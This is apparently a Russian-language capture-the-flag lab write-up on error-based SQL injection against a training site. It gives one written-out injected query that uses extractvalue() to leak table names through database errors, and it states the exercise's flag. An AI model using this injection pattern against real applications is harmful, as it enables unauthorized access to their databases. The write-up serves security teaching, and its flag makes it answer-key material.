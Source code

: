 # Уязвимости 4 практика часть 1

**Сайт:** [http://errsql.myctf.ru](http://errsql.myctf.ru)

**Requirements:** ~~Firefox + hackbar plugin~~ WebBrowser

## 2) Получаем список таблиц в текущей базе

`...`

- **Q**: Какой результат вы получили? **A**: `flag`

-
**Q**: Какой запрос вы предположительно получили?

**A**:

```sql
SELECT id FROM users WHERE login = 'admin' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) -- 123 and password = '';
```

- **Q**: Разберите построчно, что именно вы сделали? **A**: выполнили произвольный SQL в строке запроса

## 3) Получаем названия столбцов в найденной таблице

`...`

- **Q**: Какой результат вы получили? **A**: `flag`

## 4) Достаем флаг

`...`

- **Q**: Какой флаг вы получили? **A**: `d0nt_sh0w_y0ur_3rr0r5`
